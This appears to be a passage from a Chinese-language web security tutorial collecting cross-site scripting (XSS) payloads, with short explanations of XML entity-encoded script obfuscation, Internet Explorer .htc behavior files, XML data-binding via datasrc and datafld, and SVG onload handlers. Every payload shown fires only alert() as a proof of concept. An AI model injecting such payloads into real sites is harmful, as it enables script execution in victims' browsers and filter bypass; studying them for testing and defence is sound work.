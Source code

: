 ```
<!DOCTYPE xss [<!ENTITY _k "&#x61;l&#x26;__;"><!ENTITY __ "ert" > ]>
<script >
&lt;!--&#10;&_k;(1&#x000029;
</script> 
```

在 xml 中，包括 script 标签内的代码浏览器都会 entity 解码后执行，这点很有用：

```
<script >
a='&#x27;,alert(1)//';
b='&#39;,alert(2)//';
c='&apos;,alert(3)//';
</script> 
```

从 5.5 版本开始，Internet Explorer（IE）开始支持 Web 行为的概念。

这些行为是由后缀名为.htc 的脚本文件描述的，它们定义了一套方法和属性，几乎可以把这些方法和属性应用到 HTML 页面上的任何元素上去。

HTML 中可以通过加载 CSS 的 behavior 的方式调用 htc 文件，仅支持同域调用：

```
//HTML 文件代码：
<html>
<head>
<style>body { behavior: url(test.htc);}</style> </head>
<body>Hello</body>
</html>
//htc 文件代码：
<PUBLIC:COMPONENT>
<PUBLIC:ATTACH EVENT="onclick" ONEVENT="alert(1)" />
</PUBLIC:COMPONENT> 
```

同样 HTML 调用 XML 文件执行 javascript：

```
<html>
<body>
<xml id="xss" src="test.xml"></xml>
<label dataformatas=html datasrc=#xss datafld=payload></label> </body>
</html>
<?xml version="1.0"?>
<x>
<payload>
<![CDATA[<img src=x onerror=alert(domain)>]]> </payload>
</x> 
```

dataformatas 定义了获取到的数据以什么格式解析（HTML 或 text），datasrc 指绑定的 id，datafld 指使用哪一段数据。

svg 调用 javascript（新版本的几个浏览器支持）：

```
<svg >
<g onload="alert(1)"></g>
</svg>
<svg  onload="alert(2)"></svg> 
```
